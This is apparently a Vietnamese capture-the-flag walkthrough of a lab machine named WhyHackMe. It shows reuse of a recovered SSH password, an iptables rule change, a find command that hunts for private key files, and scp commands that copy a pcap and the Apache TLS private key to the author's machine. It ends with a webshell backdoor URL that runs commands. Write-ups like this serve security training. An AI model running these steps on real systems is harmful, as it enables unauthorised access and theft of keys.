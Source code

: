 <img width="904" height="169" alt="image" src="https://github.com/user-attachments/assets/6dfab6e8-8c00-4b46-b603-e68745b1af94" />

tôi nhận được dữ liệu dường như nó là username và password

jack:WhyIsMyPasswordSoStrongIDK

tôi dùng nó để đăng nhập ssh thành công sau đó cờ người dùng ngay vị trí hiện tại

<img width="853" height="648" alt="image" src="https://github.com/user-attachments/assets/92204417-8383-4a25-a2c0-4fe00adbe036" />

sau đó tôi tìm cách leo quyền 

<img width="908" height="348" alt="image" src="https://github.com/user-attachments/assets/641bf96d-eccc-4f9d-985b-4618bad931a1" />

có dịch vụ hoạt động trên cổng 41312

sử dụng iptables thay đổi quy tắc để chấp nhận tất cả các kết nối đến cổng 41312 bằng lệnh sau

sudo iptables -I INPUT -p tcp --dport 41312 -j ACCEPT

tôi đã cố truy cập nhưng không thành công 

<img width="1271" height="283" alt="image" src="https://github.com/user-attachments/assets/6cb0b857-2f79-435d-8231-45abad414846" />

ở thư mục /opt ta có 2 file thú vị 

lấy file pcap về máy kali tôi 

scp capture.pcap doankhanh@10.14.108.226:/home/doankhanh/Documents/WhyHackMe

<img width="1245" height="150" alt="image" src="https://github.com/user-attachments/assets/5704ff12-ecff-4535-bf85-6a1ce726acb7" />

<img width="1256" height="782" alt="image" src="https://github.com/user-attachments/assets/3277d6d1-ac7d-4c6f-b3e6-793b13e14ef6" />

sau khi bật wireshark lên xem nhưng nội dung đã bị mã hóa nên tôi dùng cách khác 

sử dụng lệnh 

find / -type f -name "*.key" 2>/dev/null

và thấy được đường dẫn lưu trữ khóa 

/etc/apache2/certs/apache.key

đưa nó về máy của tôi 

scp /etc/apache2/certs/apache.key doankhanh@10.14.108.226:/home/doankhanh/Documents/WhyHackMe

quay lại wireshark và điều hướng đến Edit -> Prefernces -> TLS

vào tùy chọn edit trong RSA Keys List và nhập IP, cổng, giao thức và vị trí của khóa vừa lấy về 

<img width="1264" height="800" alt="image" src="https://github.com/user-attachments/assets/3a123d12-bb45-4ced-8b4c-71bf68e5ab42" />

sau đó sử dụng bộ lọc http 

<img width="1468" height="685" alt="image" src="https://github.com/user-attachments/assets/d3de9ced-6059-4e54-9135-40172d86e8db" />

từ các gói tin thì tôi thấy được là có 1 hacker đã tải lên một webshell làm cửa hậu /cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id để truy cập vào hệ thống
